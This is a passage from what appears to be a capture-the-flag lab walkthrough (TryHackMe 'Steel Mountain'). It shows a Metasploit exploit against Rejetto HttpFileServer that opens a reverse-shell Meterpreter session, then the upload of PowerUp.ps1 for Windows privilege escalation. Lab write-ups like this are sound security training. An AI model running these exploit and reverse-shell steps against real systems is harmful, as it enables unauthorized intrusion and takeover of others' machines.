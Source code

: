 Lets open metasploit and search for an exploit there.
```
msf6 > search rejetto

Matching Modules
================

   #  Name                                   Disclosure Date  Rank       Check  Description
   -  ----                                   ---------------  ----       -----  -----------
   0  exploit/windows/http/rejetto_hfs_exec  2014-09-11       excellent  Yes    Rejetto HttpFileServer Remote Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/windows/http/rejetto_hfs_exec
```

Bringing up the available options show we need to set rhost, rport, and lhost. Once those are set, run the exploit.
```
msf6 exploit(windows/http/rejetto_hfs_exec) > run

[*] Started reverse TCP handler on 10.2.11.19:4444 
[*] Using URL: http://10.2.11.19:8080/ZDD9g9aXM8
[*] Server started.
[*] Sending a malicious request to /
[*] Payload request received: /ZDD9g9aXM8
[*] Sending stage (175686 bytes) to 10.10.181.238

[*] Meterpreter session 1 opened (10.2.11.19:4444 -> 10.10.181.238:49215) at 2022-10-01 18:04:15 -0700
[*] Server stopped.
[!] This exploit may require manual cleanup of '%TEMP%\JpNXTjBY.vbs' on the target

meterpreter > 
```

### Privilege Escalation

Now that we have a foothold, we can enumerate the windows system to find a vector for privilege escalation. To do that, we can use a powershell script called PowerUp. The purpose of this script is to enumerate windows vulnerability vectors that rely on misconfigurations. Lets upload the script using meterpreter.
```
meterpreter > upload ~/Desktop/THM/steelmountain/PowerUp.ps1
[*] uploading  : /home/jake/Desktop/THM/steelmountain/PowerUp.ps1 -> PowerUp.ps1
[*] Uploaded 586.50 KiB of 586.50 KiB (100.0%): /home/jake/Desktop/THM/steelmountain/PowerUp.ps1 -> PowerUp.ps1
[*] uploaded   : /home/jake/Desktop/THM/steelmountain/PowerUp.ps1 -> PowerUp.ps1
```

To execute the script, we will need to be in powershell. To do this, we can enter the following commands.
```
meterpreter > load powershell
Loading extension powershell...Success.
meterpreter > powershell_shell
PS > 
```
